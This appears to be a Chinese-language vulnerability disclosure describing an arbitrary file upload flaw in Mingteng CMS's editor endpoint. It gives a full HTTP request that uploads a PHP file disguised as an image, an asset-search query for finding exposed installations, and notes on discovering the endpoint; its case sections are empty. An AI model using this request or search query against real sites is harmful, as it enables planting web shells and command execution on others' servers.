









# 明腾 CMS 存在任意文件上传漏洞

> 给 CNVD 提交了，但是要我给不打码的截图， 但是对应的目标也都关站了或者链接无法访问了， 搞不了截图了， 直接不搞了

## 介绍

明腾 CMS 是一款专业的内容管理系统, 在最新版本中, 由于明腾 CMS 的验证不充分, 导致任意用户可以通过其后台编辑器接口来上传任意类型的文件,  进而导致命令执行等漏洞的产生.

##  漏洞复现



发送下面的请求, 就会返回对应的上传文件的存储位置

```http
POST /mingteng/ueditor/imageup/savePath/public/upload/temp/pictitle/banner/dir/images.html HTTP/2
Host: *************
Cookie: *************
Content-Length: 201
User-Agent: *************
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzxO5u6lHqBqdgQY0
Accept: */*

------WebKitFormBoundaryzxO5u6lHqBqdgQY0
Content-Disposition: form-data; name="file"; filename="Bash.php"
Content-Type: image/png

<?php echo "Vuln";?>
------WebKitFormBoundaryzxO5u6lHqBqdgQY0--
```

之后请求对应的文件, 就会发现对应的文件执行了



## 资产测绘

```forth
title=="明腾CMS管理中心登录"
```

## 漏洞发现过程

在查看 [[1day]明腾CMS某接口存在任意文件上传](https://mp.weixin.qq.com/s/9PMdl1w2tX93HXRVUazq8w)  文章的时候感觉可以搞一手, 经过一番搜寻在前端找到了对应的接口



在构造了一个请求之后, 后端返回对应的一个文件上传页面源码 (如果只在浏览器端看是根本看不见的, 我是看 Burp 的响应报文发现的) 之后通过 Burp 的选项 `展示响应内容到浏览器` 发现了对应的上传位置, 之后上传就完了

## 案例

## 案例一





## 案例二





## 案例三



